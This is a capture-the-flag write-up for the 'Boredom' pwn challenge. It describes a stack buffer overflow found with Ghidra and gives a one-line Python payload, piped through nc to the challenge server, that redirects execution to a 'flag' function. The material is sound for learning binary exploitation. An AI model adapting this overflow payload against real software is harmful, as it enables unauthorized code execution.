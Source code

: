 # Boredom

Keith is bored and stuck at home. Give him some things to do.

Connect at nc pwn.hsctf.com 5002.

Note, if you're having trouble getting it to work remotely:

* check your offset, the offset is slightly different on the remote server
* the addresses are still the same

## Solution

Disassemble the bin file using ghidra and check the buffer dimension: it is 208 locally (216 to cause a buffer overflow, + 8 byte func_address to call the function) and 200 on server (208 to cause a buffer overflow, + 8 byte func_address to call the function). You'll notice that if you send 220 "a" as input, the program will try to call a function at the address: "0x7f0061616161" (character "a" in ASCII is equal to 0x61 in hex).
So just use the command:

```
python -c "print 'aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa\xd5\x11\x40\x00\x00\x00\x00\x00'" | nc pwn.hsctf.com 5002
```

This will cause a bufferoverflow and make the program run the function "flag" (address 0x04011d5) to get the flag.txt from the server.
